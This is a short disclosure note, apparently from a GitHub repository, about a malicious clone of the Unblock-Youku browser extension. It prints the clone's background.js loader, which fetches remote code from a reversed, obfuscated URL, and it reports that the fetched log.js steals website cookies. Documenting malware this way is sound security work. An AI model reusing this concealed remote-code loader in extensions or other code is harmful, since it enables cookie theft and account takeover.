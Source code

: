 Extension ID: fmakoabecaggdofhohcdjiaifnkmpldj

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.

